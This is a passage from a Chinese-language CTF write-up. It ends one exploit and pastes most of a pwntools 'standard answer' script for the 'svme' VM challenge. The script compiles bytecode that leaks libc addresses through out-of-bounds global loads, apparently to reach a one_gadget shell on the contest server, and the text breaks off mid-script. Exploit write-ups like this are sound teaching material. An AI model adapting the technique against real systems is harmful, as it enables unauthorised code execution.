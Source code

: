 ```python
sleep(0.3)
p.send(payload13)

p.interactive()


```

当然，bb 的标准答案 exp 更完美，也贴上：

```python

from pwn import *
context.log_level = 'debug'
# context.terminal = ['tmux', "new-window"]
one_gadgets = [0, 3, 6, 501, 504]
# p = process('./svme1')
# p = remote('1.117.139.210', 9601)
code2int = {'noop': 0, 'iadd': 1, 'isub': 2, 'imul': 3, 'ilt': 4, 'ieq': 5, 'br': 6, 'brt': 7,
            'brf': 8, 'iconst': 9, 'load': 10, 'gload': 11, 'store': 12, 'gstore': 13, 'print': 14,
            'pop': 15, 'call': 16, 'ret': 17, 'halt': 18}

code_place = {"noop": 0, "iadd": 0, "isub": 0, "imul": 0, "ilt": 0, "ieq": 0, "br": 1, "brt": 1,
              "brf": 1, "iconst": 1, "load": 1, "gload": 1, "store": 1, "gstore": 1, "print": 0,
              "pop": 0, "call": 3, "ret": 0, "halt": 0}


def generate_code(bytecode):
    bytecode = bytecode.split()
    for i in range(len(bytecode)):
        if bytecode[i] in code2int.keys():
            bytecode[i] = code2int[bytecode[i]]
        else:
            bytecode[i] = int(bytecode[i])
    code = b""
    for i in bytecode:
        code = code + p32(i)
    return code


def pwn():
    # p = process('./svme', env={'LD_PRELOAD': './libc-2.31.so'})
    p = remote('pwn.archive.xdsec.chall.frankli.site', 10089)
    code = f'''
    call 4 7 0
    load 6
    load 5
    load 4
    load 3
    load 6
    iconst 4294967248
    iadd
    load 5
    load 0
    gload 147
    gload 146
    iconst 4294965951
    iadd
    gstore 2
    gstore 3
    gload 147
    gload 146
    iconst 1639690
    iadd
```